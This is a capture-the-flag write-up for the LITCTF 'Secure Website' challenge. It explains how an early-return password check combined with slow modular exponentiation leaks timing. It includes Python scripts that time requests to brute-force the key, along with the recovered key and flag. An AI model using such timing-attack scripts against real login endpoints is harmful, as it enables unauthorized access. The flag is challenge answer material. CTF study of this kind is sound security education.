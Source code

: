 # Secure Website
> I have like so many things that I want to do, but I am not sure if I want others to see them yet D: I guess I will just hide all the super important stuff behind my super super fortified and secure [Password Checker](http://litctf.live:31776/)!
>
> Downloads
> [SecureWebsite.zip](https://drive.google.com/uc?export=download&id=1ixlV54JoFOGziLzlOewPBijbtePZo8SI)

## Identifying the vulnerability
Let's take a look at `modPow` function:
```js
function modPow(base,exp,mod) {
	var result = 1;
	for(var i = 0;i < exp;++i) {
		result = (result * base) % mod;
	}
	return result;
}
```
Instead of using quick exponentiation, it iterates over all integers smaller than `exp` which makes it extremely slow.
And given that `checkPassword` returns early when the first wrong character is found:
```js
function checkPassword(password,pass) {
	var arr = pass.split(",");
	for(var i = 0;i < arr.length;++i) {
		arr[i] = parseInt(arr[i]);
	}

	if(arr.length != password.length) return false;
	for(var i = 0;i < arr.length;++i) {
		var currentChar = password.charCodeAt(i);
		var currentInput = decryptRSA(arr[i]);
		if(currentChar != currentInput) return false;
	}
	return true;
}
```
We can perform a timing attack.

## Exploiting the vulnerability
First, we have to determine the length of the password. The following script can be used:
```py
import requests


def encrypt(c):
	return str(pow(ord(c), 17, 3217 * 6451))


url = 'http://litctf.live:31776/verify'

for i in range(1, 20):
	ct = ','.join(map(encrypt, 'a' * i))
	r = requests.get(
		url,
		params={
			'password': ct
		},
		allow_redirects=False
	)

	print(f'{i}: ({r.status_code}) {r.elapsed.total_seconds()}')
```
It can be seen that the response time is slightly longer for 6 characters and therefore the key is probably 6 characters long.
Now it's time to bruteforce the key.
Unfortunately, the server response times aren't constant enough to completely automate the key extraction; therefore, for each character I've run the script and waited until it went through all alphanumeric characters, and then (if it was possible) determined the correct character and rerun the script with updated key.
The following Python script helps to get the key:
```py
import requests
from string import ascii_letters, digits


def encrypt(c):
	return str(pow(ord(c), 17, 3217 * 6451))


alnum = ascii_letters + digits

url = 'http://litctf.live:31776/verify'
# key length: 6 chars
key = ''

for c in alnum:
	curr = key + c
	ct = ','.join(map(encrypt, curr + '_' * (6 - len(curr))))
	r = requests.get(
		url,
		params={
			'password': ct
		},
		allow_redirects=False
	)

  # note: for initial 5 characters, determine the correct guess according to response time; for the last character, look at status codes
	print(f'{curr}: ({r.status_code}) {r.elapsed.total_seconds()}')
```
The key is `CxIj6p`.

## Flag
`LITCTF{uwu_st3ph4ni3_i5_s0_0rz_0rz_0TZ}`

